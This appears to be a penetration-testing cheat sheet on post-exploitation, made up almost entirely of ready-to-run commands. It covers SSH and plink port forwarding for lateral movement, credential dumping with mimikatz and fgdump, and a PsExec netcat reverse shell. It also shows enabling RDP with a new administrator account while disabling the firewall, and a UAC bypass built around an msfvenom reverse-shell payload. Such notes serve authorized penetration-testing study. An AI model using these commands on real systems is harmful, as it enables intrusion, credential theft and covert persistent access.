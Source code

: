# Post Exploitation
## Lateral movement
### Local Port forwarding
#### Port forwarding rinetd
```
apt install rinetd
cat /etc/rinetd.conf
```

#### SSH local port forward
```
ssh -N -L <LOCAL PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<TARGET IP>
```

#### SSH port forwarding over hop
```
ssh -N -L <BIND_ADRESS>:<PORT>:<TARGET IP>:<TARGET PORT> <USERNAME>@<HOP IP>
```
### Remote port forwarding
#### SSH forward local port of target back to our kali
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<IP>
```

### Dynamic port forwarding
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
vim  /etc/proxychains.conf
socks4		127.0.0.1 9000 #Change this value
#prepend proxychains command before every command to send through the proxychain.
```

#### Port forwarding plink.exe
```
plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```

### Proxychains
### Proxychains over hop
```
ssh -J <USER>@<FIRST HOP IP> -D 127.0.0.1:9000 <USER>@<SECOND MACHINE>
```

## Dumping credentials
#### Mimikatz.exe
Bring over mimikatz.exe using an SMB server.
```
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full"
```

#### Fgdump.exe
```
fgdump.exe
type .....pwdump
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <IP> <PORT> -e cmd.exe
```

#### Enable RDP and create user to login
```
#Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#Enable more then 1 user login
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

#Add user to RDP group
net user <USER> <PASS> /add /Y
net localgroup administrators <USER> /add
net localgroup "Remote Desktop Users" <USER> /add

#Disable firewall
netsh advfirewall set allprofiles state off

#RDP to machine
xfreerdp /u:<USER> /p:<PASS> /v:<TARGET>
```

#### UAC bypass
```
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe

wget https://raw.githubusercontent.com/turbo/zero2hero/master/main.c
#change
	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\shell.exe");

x86_64-w64-mingw32-gcc main.c -o bypassuac.exe

sudo nc -lnvp <PORT>
```
